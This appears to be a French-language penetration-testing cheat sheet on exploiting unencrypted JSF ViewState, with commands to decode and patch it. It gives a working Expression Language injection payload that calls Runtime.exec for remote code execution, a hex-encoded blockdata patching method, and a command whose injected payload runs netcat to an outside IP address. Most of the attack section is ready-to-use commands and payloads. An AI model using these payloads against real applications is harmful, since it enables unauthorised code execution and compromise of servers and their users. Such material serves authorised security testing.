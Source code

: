 # JSF Viewstate

For trainings : https://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles

Si la viewstate n'est pas chiffrée, et est interprêtée côté client. Il est possible de la décoder pour récupérer des informations. En plus de cela, il est possible de la patcher afin de modifier les valeurs des variables ou bien même réaliser de l'exécution de code.

## Decode

```
$ ./inyourface.sh viewstate.txt > decoded.txt
```

## Patching de la viewstate

```
$ ./inyourface.sh -patch 0x7e0040 userId 0 -outfile /tmp/patched.txt /tmp/viewstate.txt
```

Pour faire de la RCE chercher les : **org.apache.el.ValueExpressionImpl**

Exemple de payload à injecter: 

```
#{request.getClass().getClassLoader().loadClass(‘java.lang.
Runtime’).getDeclaredMethods()[6].invoke(null).exec(‘<cmd>’)
```

```
./inyourface.sh -rawpatch 441 465 /tmp/payload.txt -outfile /tmp/patched.txt /tmp/viewstate.txt
```

## Méthodologie pour rawpatch

```
$ echo -ne '\x4d\x00\x42\x23\x7b\x21\x73\x65\x73\x73\x69\x6f\x6e\x55\x74\x69\x6c\x69\x73\x61\x74\x65\x75\x72\x42\x65\x61\x6e\x2e\x69\x73\x50\x52\x4f\x20\x61\x6e\x64\x20\x21\x73\x65\x73\x73\x69\x6f\x6e\x55\x74\x69\x6c\x69\x73\x61\x74\x65\x75\x72\x42\x65\x61\x6e\x2e\x69\x73\x50\x41\x52\x7d\x00\x07\x62\x6f\x6f\x6c\x65\x61\x6e' > /tmp/blockdata.bin
```

```
./patch_blockdata.py "#{\!sessionUtilisateurBean.isPRO and \!sessionUtilisateurBean.isPAR}" "#{request.getClass().getClassLoader().loadClass('java.lang.Runtime').getDeclaredMethods()[6].invoke(null).exec('nc 10.10.10.10 8000')}" blockdata.bin blockdata-patched.bin
```

```
$ ./inyourface.sh -rawpatch 4109 4187 /tmp/blockdata-patched.bin -outfile /tmp/viewstate-patched.txt /tmp/viewstate.txt
```

## Liens

https://www.synacktiv.com/ressources/MISC69_pentest_JSF.pdf

Un grand merci à Renaud Dubourguais et Nicolas Collignon pour leur outils et aide de déboggage.